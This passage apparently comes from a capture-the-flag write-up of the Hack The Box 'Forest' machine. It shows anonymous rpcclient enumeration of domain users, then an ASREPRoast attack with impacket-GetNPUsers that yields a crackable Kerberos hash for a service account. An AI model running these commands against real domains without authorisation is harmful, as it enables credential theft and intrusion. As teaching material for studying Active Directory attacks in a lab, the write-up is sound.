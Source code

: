 ```bash
┌──(kali㉿kali)-[~/Documents/HTB/Forest]
└─$ rpcclient 10.10.10.161 -U '' -N                                                                              1 ⨯
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

With that we can try the ASPRoast attack.

### ASPRoasting

This attack take advantage of the Kerbetos flag `DONT_REQUIRE_PREAUTH`, allowing an attacker to get the hash of a domain user password to crack it offline. It is not common but maybe we are lucky:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Forest]
└─$ impacket-GetNPUsers htb.local/ -no-pass -usersfile users.txt                                                 1 ⨯
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:c47eacb0574c80a88216f8e0abaa5368$e1bb99f94621eb4c55f70f7fcda83ebafde72babb5a873e85a95303985fef7de0251883fb44dd636cf64883b68ebdc845b7d64a4de4db4b0184ffab017b2b78e6a8b32af527b19a7a2b7a45fcbf32166214a782f943f9660de69b76bf3f72b56a2ef65c5b3272d7e46fef40fb7e2a2dfa8e4ddf5401d31436b8193c936b603329dbd7173fae90e43585c9295c97423de337216227842d6e8dabeb0114f23260d7bb6820eb6373b9ababe7cb5ec156863645f4426017fb115941dcf3c511e3002f91bc0d138fb341d77155217b22f8741b1fc535160143c972792ac95cc95f02d6040a98bcc30
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
